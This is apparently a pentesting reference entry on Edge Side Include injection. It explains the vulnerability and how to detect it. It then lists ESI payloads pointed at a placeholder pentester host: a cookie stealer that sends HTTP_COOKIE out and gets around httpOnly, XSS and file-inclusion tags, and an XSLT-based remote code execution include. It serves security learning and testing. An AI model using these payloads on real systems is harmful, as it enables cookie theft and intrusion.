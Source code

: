 Edge Side Includes (`ESI`) is an XML-based markup language used to tackle performance issues by enabling heavy caching of Web content. This allows for dynamic web content assembly at the edge of the network (CDN, Browser, or Reverse Proxy) by instructing the page processor what needs to be done to complete page assembly through ESI elements (XML tags).

These ESI elements/tags are used to instruct the HTTP surrogates, such as reverse proxy, caching server, to fetch additional information regarding a web page with an already cached template. This information may come from another server before rendering the web page to the end-user.

Edge-Side Include Injection occurs when an attacker manages to reflect malicious ESI tags in the HTTP Response. This vulnerability happens due to HTTP surrogates not able to validate the ESI tag origin. They will gladly parse and evaluate legitimate ESI tags by the upstream server and malicious ESI tags by an attacker.

ESI can be identified by inspecting response headers in search for `Surrogate-Control: content="ESI/1.0"`.

Some useful ESI tags are:
```html
// Basic detection
<esi:include src=http://<PENTESTER IP>>

// XSS Exploitation Example
<esi:include src=http://<PENTESTER IP>/<XSSPAYLOAD.html>>

// Cookie Stealer (bypass httpOnly flag)
<esi:include src=http://<PENTESTER IP>/?cookie_stealer.php?=$(HTTP_COOKIE)>

// Introduce private local files (Not LFI per se)
<esi:include src="supersecret.txt">

// Valid for Akamai, sends debug information in the response
<esi:debug/>
```

In some cases, SSI injection can be used to achieve remote code execution (RCE), the only pre-requisite is that the application that is processing the ESI directives must support XSLT, a dynamic language used to transform XML files, and that the attacker includes `dca=xslt` in the payload (i.e `<esi:include src="http://<PENTESTER IP>/payload" dca=xslt>`).

Read more about ESI in [GoSecure blog](https://gosecure.ai/blog/2018/04/03/beyond-xss-edge-side-include-injection/).
